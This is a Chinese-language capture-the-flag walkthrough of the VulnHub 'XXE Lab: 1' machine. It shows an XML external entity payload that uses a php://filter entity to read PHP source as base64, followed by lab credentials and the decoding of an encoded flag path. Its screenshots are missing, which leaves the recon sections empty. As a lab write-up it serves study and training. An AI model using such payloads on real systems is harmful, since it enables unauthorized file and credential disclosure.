

# XXE Lab: 1


> 靶机文档：[XXE Lab: 1](https://www.vulnhub.com/entry/xxe-lab-1,254/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/xxe/XXE.zip)
>
> 难易程度：**Easy**


告诉了利用点：`http://your-ip/xxe`

### 信息收集

#### 主机发现


#### 端口扫描



#### 目录扫描


访问`robots.txt`


访问`/xxe`


登陆抓包


看到的登陆的格式就是`XML`语言的数据格式

### 漏洞利用

payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php">
]>
<root><name>&admin;</name><password>hj</password></root>
```


将选中`base64`格式的数据，发送到`Decoder`模块，去解码


刚才`robots.txt`文件里还显示有一个`admin.php`，尝试读取一下


解码发现了用户名和密码

用户名：`administhebest`

密码解密后是`admin@123`


还发现了`/flagmoout.php`


先用得到的账密进行登陆


也跳转到了`/flagmeout.php`


`base64`解码后得到一串`base32格式`的数据

```
JQZFMMCZPE4HKWTNPBUFU6JVO5QUQQJ5
```

> 解码地址：https://www.qqxiuzi.cn/bianma/base.php


解码后得到`base64`格式的

再进行`base64`解码，得到一个路径，再次外部实体注入


运行需要php版本较低 ，高版本会报错，导致出不来结果

[php5.6在线运行](https://code.y444.cn/php)